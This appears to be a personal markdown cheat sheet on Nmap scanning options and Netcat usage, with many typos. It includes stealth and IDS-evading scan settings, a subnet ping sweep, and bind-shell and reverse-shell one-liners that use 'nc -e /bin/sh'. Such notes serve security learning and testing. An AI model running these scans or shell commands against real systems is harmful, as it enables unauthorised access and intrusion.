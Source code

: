 # Nmap and Netcat

nmap <scantype> <options> <targets>

target is domain, ip, or ip adress range.
  * 192.168.0-255.0-255
  * 192.168.0.0/16

bydefault nmap scans 1000 most common posts, like telnet, ftp, ssh, smtp, http, etc.

-sP ping scan - for host discovery

-sS SYN scan, stealthy port scanning

-sV version scan, to vind serive details

-sT tcp donnect scan, does full connect

-sU UDP scan for UPD ports

-O OS detection
  -Pn (skip host detect, when firewall drops all ICMP reqs (ping packets))
  -n disable reverse DNS reso

Timings
  * -T0 - extra slow
  * -T1 - avoiding intrusion detections systmes
  * -T2 - unlike to interfere
  * -T3 - default
  * -T4 - aggressive, faster on local networks
  * -T5 - very fast

```
nmap localhost
nmap -sV localhost
# Ping sweep to find other machines in the network
nmap -sP 192.168.1.0/24
# Choose IP and fast scan
nmap -F -n 192.168.1.55
```

NSE scripts written in Lua. Like http-enum
nmap --script http-enum localhost -p 80, 8080


## Netcat
Adhoc connections of TCP/UDP

Listener server (-l) on port 12345 (-p):
nc -l -p 12345

Connecting client for text chat
nc <IP> 12345

### nc filetransfer
nc -l -p 12345 > /opt/newfile.txt
echo "thanks for file says server" | nc -l -p 12345 > /opt/newfile.txt
nc <IP> 12345 < filepath

### nc can execute
Bind shell and Reverse shell.

Bind shell
server: nc -lp 12345 -e /bin/sh
client: nc <IP> 12345

Reverse
server: nc -lp 12345
client: nc <IP> 12345 -e /bin/sh

